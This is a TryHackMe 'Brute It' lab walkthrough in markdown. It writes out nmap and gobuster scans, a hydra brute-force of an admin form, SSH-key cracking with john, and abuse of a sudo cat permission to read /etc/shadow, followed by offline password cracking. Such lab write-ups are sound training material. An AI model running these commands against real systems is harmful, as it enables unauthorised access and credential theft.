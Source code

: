 # Brute It

**Room Link:** [https://tryhackme.com/room/bruteit](https://tryhackme.com/room/bruteit)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (26) (6).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found.

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>







<figure><img src="../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (86).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (117) (2).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-post-form "/admin/:user=^USER^&pass=^PASS^:F=invalid" -V
```

<figure><img src="../../.gitbook/assets/image (74).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (31) (3).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
chmod 600 id_rsa 
ssh -i id_rsa john@$VICTIM
pass: rockinroll
```



john can run cat as root, we can just use this to read root.txt but I decided to read the shadow file which I can't do from johns account, then send shadow and passwd files back to Kali to crack.

<figure><img src="../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo -l
LFILE=/etc/shadow
sudo cat "$LFILE"
```

**Kali**

```
unshadow passwd shadow > passwords.txt
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

<figure><img src="../../.gitbook/assets/image (85).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>











